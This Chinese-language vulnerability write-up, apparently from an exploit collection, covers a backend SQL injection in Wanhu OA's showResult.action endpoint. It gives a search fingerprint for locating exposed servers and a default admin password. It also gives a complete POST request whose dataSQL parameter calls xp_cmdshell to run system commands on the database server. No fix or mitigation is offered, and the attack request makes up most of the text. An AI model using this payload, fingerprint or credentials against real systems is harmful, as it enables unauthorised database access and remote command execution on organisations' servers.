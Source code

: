 # 万户OA showResult.action 后台SQL注入漏洞

# 万户OA showResult.action 后台SQL注入漏洞

## 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132902980](/images/202205201329080.png)

默认账号密码：admin/111111

发送请求包：

```
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![image-20220520132915993](/images/202205201329050.png)

